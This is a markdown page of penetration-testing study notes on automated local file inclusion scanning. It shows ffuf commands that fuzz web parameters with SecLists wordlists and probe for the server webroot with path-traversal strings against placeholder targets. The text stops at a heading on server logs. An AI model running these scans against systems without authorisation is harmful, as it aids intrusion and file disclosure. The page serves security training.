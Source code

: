 ```yaml
---
layout: default
title: LFI Scanning
permalink: /Web/inclusion_scanning/
---
```


# Automated Scanning
## Fuzzing Parameters
It is important to fuzz for exposed parameters, as they tend not to be as secure as public ones.
```
ffuf -w /opt/useful/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287
```
Once we identify an exposed parameter that isn't linked to any forms we tested, we can perform all of the LFI tests.
### LFI wordlists
There are a number of [LFI Wordlists](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI) we can use for the scan. A good start is [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt).
```
ffuf -w /opt/useful/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287
```
## Fuzzing Server Files
### Server Webroot
If we wanted to locate a file we uploaded, but we cannot reach its `/uploads` directory through relative paths (e.g. `../../uploads`). In such cases, we may need to figure out the server webroot path so that we can locate our uploaded files through absolute paths instead of relative paths.
We can fuxx for the index.php file through common webroot paths:
- [wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt)
- [wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt)
Depending on our LFI situation, we may need to add a few back directories (e.g. `../../../../`), and then add our index.php afterwords:
```
ffuf -w /opt/useful/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287
```
### Server Logs/Configurations
